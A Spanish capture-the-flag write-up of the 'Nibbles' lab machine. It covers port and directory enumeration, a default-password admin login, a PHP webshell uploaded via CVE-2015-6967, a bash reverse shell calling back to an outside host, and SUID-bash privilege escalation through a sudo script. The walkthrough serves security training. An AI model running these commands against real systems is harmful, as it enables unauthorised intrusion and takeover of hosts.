









# Informacion

+ Nombre: Nibbles
+ IP: 10.129.251.238
+ OS: Linux
+ Dificultad: Easy

# Enumeración

## Nmap

Primer escaneo:

```
nmap -p- -sS -Pn -n -vvv --open -oG allports 10.129.251.238
```

```
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

Escaneo detallado:

```
nmap -p22,80 -sCV -oN target 10.129.251.238
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web



En el código se menciona el directorio `/nibbleblog/` :



De primeras no hay nada interesante:


### Fuzzing

Ejecuto fuerza bruta de directorios:

```
wfuzz -c --hc 404 -u "10.129.251.238/nibbleblog/FUZZ" -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```

```
000000001:   200        60 L     168 W      2985 Ch     "http://10.129.251.238/nibbleblog/"                                                                                           
000000062:   301        9 L      28 W       329 Ch      "content"                                                                                                                     
000000114:   301        9 L      28 W       328 Ch      "themes"                                                                                                                      
000000246:   301        9 L      28 W       327 Ch      "admin"                                                                                                                       
000000506:   301        9 L      28 W       329 Ch      "plugins"                                                                                                                     
000000884:   200        63 L     643 W      4624 Ch     "README"                                                                                                                      
000000922:   301        9 L      28 W       331 Ch      "languages"
```

Revela varios directorios interesantes.

En `/nibbleblog/README` se encuentra la versión de `Nibbleblog v4.0.3`:



y en  `/nibbleblog/content/private/users.xml` se revela el usuario `admin`:



# Arbitrary File Upload(CVE-2015-6967)

El plugin My_image de nibbleblog en versiones anteriores a 4.0.5, Permite a administradores ejecutar codigo remoto subiendo un archivo con extensión ejecutable, accediendo a el en `content/private/plugins/my_image/image.php`.


Hice fuzzing de nuevo con la extencion `.php` y revelo el archivo `admin.php` que contiene un panel de login: 



Afortunadamente probando con el usuario`admin` encontrado antes y la contraseña `nibbles` accedo al dashboard:



En la configuracion del plugin My_image subi un archivo php con una simple webshell:

```
<?php
system($_GET['crab'])
?>
```



En `/nibbleblog/content/private/plugins/my_image/image.php?crab=id`



# Shell como nibbler

Revshell:

```
image.php?crab=bash -c "bash -i >%26 /dev/tcp/10.10.14.103/443 0>%261"
```

Terminal en escucha:

```
root@kali /home/cangrejo # nc -lnvp 443     
listening on [any] 443 ...
connect to [10.10.14.103] from (UNKNOWN) [10.129.143.152] 46398
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ whoami
nibbler
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ cat /home/nibbler/user.txt 
3c632e69************************
```

# PrivEsc

## Sudo

nibbler puede ejecutar monitor.sh como root y sin contraseña:

```
User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

`monitor.sh` es un script de shell diseñado para monitorear servicios o procesos.

El script se encontraba dentro de un archivo zip:

```
nibbler@Nibbles:/home/nibbler$ unzip personal.zip
Archive:  personal.zip
   creating: personal/
   creating: personal/stuff/
  inflating: personal/stuff/monitor.sh
```

Probé a añadir un comando al final del script para comprobar si lo ejecuta:



y funciona:

```
nibbler@Nibbles:/home/nibbler$ sudo /home/nibbler/personal/stuff/monitor.sh
nibbler@Nibbles:/home/nibbler$ cat whoami.txt 
root
```

Agregue el siguiente payload para crear una copia de `bash` en el directorio tmp y con permisos SUID:

```
cp /bin/bash /tmp/crab.sh && chmod u+s /tmp/crab.sh
```

```
nibbler@Nibbles:/home/nibbler$ sudo /home/nibbler/personal/stuff/monitor.sh
nibbler@Nibbles:/home/nibbler$ /tmp/crab.sh -p
crab.sh-4.3# whoami
root
crab.sh-4.3# cat /root/root.txt 
55e60a4914**********************
```

# 🦀
